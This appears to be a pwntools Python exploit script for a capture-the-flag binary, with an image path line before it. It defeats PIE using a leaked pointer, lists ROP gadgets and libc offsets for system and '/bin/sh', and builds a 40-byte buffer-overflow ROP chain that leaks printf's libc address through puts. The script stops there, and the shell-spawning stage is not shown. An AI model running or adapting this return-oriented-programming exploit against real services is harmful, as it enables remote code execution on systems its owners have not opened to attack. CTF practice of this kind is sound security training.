```python
PORT = 2052

elf = context.binary = ELF(BIN_NAME)

gs = '''
continue
'''
def start():
    if args.GDB:
        return gdb.debug(elf.path, gdbscript=gs)
    elif args.REMOTE:
        return remote(HOST_NAME,PORT)
    else:
        return process(elf.path)


### START & GET LEAK ###
io = start()
leak = int(io.recvline(),16)

### DEFEAT PIE ###
base = leak - 0x4010
main = base + 0x1178
puts_plt = base+elf.plt["puts"]

### GADGETS ###
POP_RDI = base + 0x116f
POP_RSI = base + 0x1249
RET = base + 0x1016

### libc = libc6_2.31-13_amd64 (https://libc.blukat.me/?q=read%3Ae80%2Cputs%3A5f0%2Cprintf%3Acf0&l=libc6-amd64_2.31-9_i386)
printf_offset = 0x056cf0
bin_sh_offset = 0x18a152
system_offset = 0x048e50

OFFSET = 40 #How many char to fill the buffer with until we can control RIP

### LOGGING ###
log.success(f"ptr leak: {hex(leak)}")
log.success(f"base found: {hex(base)}")
log.success(f"puts_plt found: {hex(puts_plt)}")
log.success(f"main found: {hex(main)}")

### LEAK LIBC ADRESSE ###
def leak(fun):
        fun_addr = base+elf.got[fun] #Get function address in the GOT
        log.info(f"Leaking {fun}.got libc adress")
        rop1 = [
            POP_RDI, fun_addr,
            puts_plt,
            main
        ]
        rop1 = b'A'*OFFSET+b''.join([p64(r) for r in rop1]) #Building first ropchain to leak a fun address
        io.sendline(rop1) #Send 1st ropchain
        io.recvline()
        leak_libc = io.recvline() #Receive leak
        leak_libc = leak_libc.strip().ljust(8,b'\x00') #Leak formatage
        log.progress(f"{fun}_libc: {hex(u64(leak_libc))}")
        return leak_libc #Return leak

libc_leak = u64(leak("printf")) #Get printf adresse in order to calculate libc base adress
```